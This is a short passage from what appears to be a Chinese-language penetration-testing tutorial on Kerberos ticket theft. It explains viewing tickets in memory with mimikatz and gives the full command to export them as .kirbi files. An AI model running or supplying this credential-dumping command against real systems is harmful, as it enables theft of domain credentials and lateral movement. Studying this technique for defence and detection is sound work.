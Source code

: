 ![截图](5cf2d2134d3076e2efb959e20f35b0d3.png)

使用 mimikatz 查看内存中的票据。

![截图](53c17b46544e898424b85efcbe425120.png)

查看了内存中的票据后，我们就需要将票据从内存中导出成文件了。

#### 2.mimikatz 导出票据

执行如下命令，使用 mimikatz 将内存中的票据导出来，执行完成后，会在mimikatz 同目录下导出 后缀为 kirbi 的票据文件。

```
mimikatz.exe "kerberos::list /export" "exit"
```
